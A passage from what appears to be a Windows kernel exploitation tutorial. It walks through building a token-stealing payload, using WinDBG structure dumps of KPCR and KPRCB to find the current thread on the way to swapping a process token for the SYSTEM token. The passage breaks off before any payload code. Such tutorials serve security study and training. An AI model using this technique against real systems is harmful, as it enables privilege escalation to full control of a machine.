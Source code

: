 + Offsets differ per operating system, you'll need to update payloads with the appropriate values. WinDBG is your friend.

---

### Token Stealing Payload

Imagine we can execute any code we want with the goal of replacing the current process token with a more privileged one, where do we go? `PCR` struct is an excellent option for us as its location doesn't change. With some WinDBG help we'll be able to find the `EPROCESS` of the current process and replace its token with that of System (PID 4).

#### 1. Finding [`PCR`](http://www.geoffchappell.com/studies/windows/km/ntoskrnl/structs/kpcr.htm)
`PCR` is at a fixed location (`gs:[0]` and `fs:[0]` for x64/x86)

#### 2. Locating PcrbData
```
kd> dt nt!_KPCR
   +0x000 NtTib            : _NT_TIB
   +0x000 GdtBase          : Ptr64 _KGDTENTRY64
   +0x008 TssBase          : Ptr64 _KTSS64
   +0x010 UserRsp          : Uint8B
   +0x018 Self             : Ptr64 _KPCR
   +0x020 CurrentPrcb      : Ptr64 _KPRCB
   +0x028 LockArray        : Ptr64 _KSPIN_LOCK_QUEUE
   +0x030 Used_Self        : Ptr64 Void
   +0x038 IdtBase          : Ptr64 _KIDTENTRY64
   +0x040 Unused           : [2] Uint8B
   +0x050 Irql             : UChar
   +0x051 SecondLevelCacheAssociativity : UChar
   +0x052 ObsoleteNumber   : UChar
   +0x053 Fill0            : UChar
   +0x054 Unused0          : [3] Uint4B
   +0x060 MajorVersion     : Uint2B
   +0x062 MinorVersion     : Uint2B
   +0x064 StallScaleFactor : Uint4B
   +0x068 Unused1          : [3] Ptr64 Void
   +0x080 KernelReserved   : [15] Uint4B
   +0x0bc SecondLevelCacheSize : Uint4B
   +0x0c0 HalReserved      : [16] Uint4B
   +0x100 Unused2          : Uint4B
   +0x108 KdVersionBlock   : Ptr64 Void
   +0x110 Unused3          : Ptr64 Void
   +0x118 PcrAlign1        : [24] Uint4B
   +0x180 Prcb             : _KPRCB                 <====
```

#### 3. Locating CurrentThread
```
kd> dt nt!_KPRCB
   +0x000 MxCsr            : Uint4B
   +0x004 LegacyNumber     : UChar
   +0x005 ReservedMustBeZero : UChar
   +0x006 InterruptRequest : UChar
   +0x007 IdleHalt         : UChar
   +0x008 CurrentThread    : Ptr64 _KTHREAD         <====
   ...
```
